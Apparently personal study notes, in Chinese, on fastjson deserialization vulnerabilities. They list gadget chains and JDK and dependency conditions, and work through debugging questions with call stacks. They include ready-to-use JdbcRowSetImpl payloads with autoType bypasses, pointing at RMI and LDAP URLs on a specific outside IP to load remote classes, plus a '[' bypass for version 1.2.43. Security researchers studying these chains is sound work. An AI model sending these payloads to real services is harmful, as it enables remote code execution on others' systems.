 # fastjson全教程
https://www.rc.sb/fastjson/#fastjson1280
https://y4er.com/posts/fastjson-learn
https://paper.seebug.org/994/
## fastjson1.2.80 poc
https://github.com/YoungBear/FastjsonPoc

# 工具
## fastjson-blacklist(hash解码)
https://github.com/LeadroyaL/fastjson-blacklist

# poc
## 1.com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
常规的Java字节码的执行，但是需要开启Feature.SupportNonPublicField，比较鸡肋
## 2.com.sun.rowset.JdbcRowSetImpl
用到的是JNDI注入，利用条件相对较低，但是需要连接远程恶意服务器，在目标没外网的情况下无法直接利用
### 低版本jdk-rmi协议
6u132, 7u122, 8u113之前
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://47.95.7.37:1099/Calc", "autoCommit":true}";
### 低版本jdk-ldap协议
6u211, 7u201, 8u191, 11.0.1之前
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"ldap://47.95.7.37:1389/Calc", "autoCommit":true}";
### 高版本jdk
开启 TomcatBeanFactoryServer 绑定恶意类到registry, 无需外部获取Factory, 利用本地tomcat依赖中的Factory
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://47.95.7.37:1099/Calc", "autoCommit":true}";
受害者本地需要有下面依赖
```text
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>
```
并且需要如下任选其一作为BeanFactory加载的类, 来执行其中的eval表达式
```text
<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>1.5.0</version>
</dependency>
```
## 3.org.apache.tomcat.dbcp.dbcp2.BasicDataSource
一个字节码的利用，但其无需目标额外开启选项，也不用连接外部服务器，利用条件更低
受害者本地需要有下面依赖, 并且jdk版本小于8u251, 版本限制是因为过高bcel无法使用
```text
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.8</version>
</dependency>
```


# 疑问
1.TestDeSerialization中为什么会调用一次getter -> getProp2_2() is called
回答: 特殊的getter:
(1)字段是Map/Collection/AtomicLong/AtomicInteger/AtomicBoolean的子类 -> /com/alibaba/fastjson/util/JavaBeanInfo.java:504
(2)setter返回的类不是getter传入类的父类(基本上有setter又有getter的就无法执行getter了) -> com.alibaba.fastjson.util.JavaBeanInfo.add
(3)item.compareTo(field) < 0

2.为什么parseObject需要Feature.SupportNonPublicField？
没有setter的private为null 我们需要这个来为private赋值

3.为什么需要_outputProperties属性？
反序列化的时候会执行getter方法, 因为_outputProperties是Properties类型是Map的子类 在执行反序列化的时候会执行相应的getter
详见/com/alibaba/fastjson/util/JavaBeanInfo.java:504
并且会执行smartMatch方法去掉_
详见com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.smartMatch()

4._bytecodes为什么需要base64编码？
解析顺序如下:
_bytecodes
_name
_tfactory
_outputProperties

在com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze 这块执行String to byte[]

具体调用链如下:
deserialze:138, ObjectArrayCodec (com.alibaba.fastjson.serializer) [2]
parseArray:723, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:177, ObjectArrayCodec (com.alibaba.fastjson.serializer) [1]
parseField:71, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:78, FastJson1_LE1224


5._tfactory为什么为{}？
跟踪到这块的时候明明传入的是null, 结果进去就自动生成object了
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(com.alibaba.fastjson.parser.DefaultJSONParser, java.lang.reflect.Type, java.lang.Object, int)
排除debug本身的问题因为toString和上面那个选项都关掉了 有可能是代码有拦截器 -> FastjsonASMDeserializer_1_TransformerFactoryImpl
找到答案: asm生成类
com.alibaba.fastjson.parser.deserializer.ASMDeserializerFactory.createJavaBeanDeserializer
问题:
尝试学习asm

6.getOutputProperties()
fastjson-1.2.24-sources.jar!/com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java:599

7.a
1.2.43如何调试出使用如下绕过?
{
"@type": "[com.sun.rowset.JdbcRowSetImpl"[{
"dataSourceName": "xxx",
"autoCommit": true
}


# 遇到的问题
多个版本的fastjson存在于External Libraries的时候无法运行调试